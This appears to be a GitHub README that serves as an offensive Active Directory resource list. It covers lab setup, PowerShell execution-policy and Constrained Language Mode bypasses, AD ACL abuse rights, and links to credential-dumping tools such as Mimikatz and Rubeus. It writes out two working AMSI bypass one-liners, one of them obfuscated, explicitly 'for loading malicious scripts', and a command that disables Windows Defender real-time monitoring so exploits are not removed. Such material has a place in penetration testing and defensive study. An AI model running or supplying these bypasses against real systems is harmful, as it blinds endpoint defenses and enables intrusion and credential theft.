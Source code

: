 # AD-Security-Resources

<p><h2>Setting up active directory lab :</h2>
<p>https://github.com/outflanknl/Invoke-ADLabDeployer 

<p><h2>Local Computer Enumeration and Privesc : </h2>

<p>1. Bypass Execution Policy : 

<p>One of the 15 methods mentioned in the blog usually works.. </p>
<p>https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/

<u>Notes :</u> Bypassing Powershell execution policy issues : </H2>


<p>2. AMSI Bypass for loading malicious scripts:
<p>  https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell </p>
<u>Few scripts that usually works quickly </u>
<p>sETItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE') ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL)."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ))."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} ) </p>

<p>[Ref].Assembly.GetType('System.Management.Automation.Ams'+'iUtils').GetField('am'+'siInitFailed','NonPu'+'blic,Static').SetValue($null,$true)</p>

<u>Detailed Article on this subject : </u>
https://blog.f-secure.com/hunting-for-amsi-bypasses/
https://burmat.gitbook.io/security/hacking/domain-exploitation#user-and-computers-with-unconstrained-delegation

<p>3. Constrained Language Mode :</p> 
Constrained Language consists of a number of restrictions that limit unconstrained code execution on a locked-down system.  (https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/)

https://github.com/padovah4ck/PSByPassCLM
https://chickenpwny.github.io/concepts/bypass/

<p>4. Turning of Windows Defender - Real Time Monitoring (for not letting exploits to be deleted):
Set-MpPreference -DisableRealtimeMonitoring $true

<p>5. Privesc 
Run Invoke-AllChecks 
<p>PowerView / Powersploit: https://github.com/PowerShellMafia/PowerSploit</p>


<H2>Domain Enumeration</h2>

<p><h3>1. ACL Enumeration and escalation :</h3></p>
<p>Some of the Active Directory object permissions and types that we as attackers are interested in:</p>
<p><b>GenericAll</b> - full rights to the object (add users to a group or reset user's password)
<p><b>GenericWrite</b> - update object's attributes (i.e logon script)
<p><b>WriteOwner</b> - change object owner to attacker controlled user take over the object
<p><b>WriteDACL</b> - modify object's ACEs and give attacker full control right over the object
<p><b>AllExtendedRights</b> - ability to add user to a group or reset password
<p><b>ForceChangePassword</b> - ability to change user's password
<p><b>Self (Self-Membership)</b> - ability to add yourself to a group
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces

AD Module :
  https://github.com/samratashok/ADModule

<p>2. Bloodhound - Visualizing the attack patch and AD Objects
  https://github.com/BloodHoundAD/SharpHound
  https://github.com/BloodHoundAD/BloodHound

Lateral Movement Automation using Bloodhound data :
  https://github.com/GoFetchAD/GoFetch

<p>3. Tools for Credential Dumping for all attacks (PTH, Kerberoasting, Golden Ticket Attack, Silver Ticket Attack, Skeleton Key Attack:
Mimikatz : https://github.com/gentilkiwi/mimikatz

Spraykatz - Credentials gathering tool automating remote procdump and parse of lsass process
  https://github.com/aas-n/spraykatz

Mimikittenz - Reading credentians from process :
  https://github.com/putterpanda/mimikittenz

Benjamin Delpy's Kekeo 
  https://github.com/gentilkiwi/kekeo/

Vincent LE TOUX's MakeMeEnterpriseAdmin
  https://github.com/vletoux/MakeMeEnterpriseAdmin

Rubeus :
  https://github.com/GhostPack/Rubeus

<p>4. Generate HTML report of AD Security Posture - Pingcastle :
  https://github.com/vletoux/pingcastle


<p><h2> References : </h2>
Huge list of AD security resources available below :
  https://adsecurity.org/
  https://www.harmj0y.net/
  https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
  https://beta.hackndo.com/

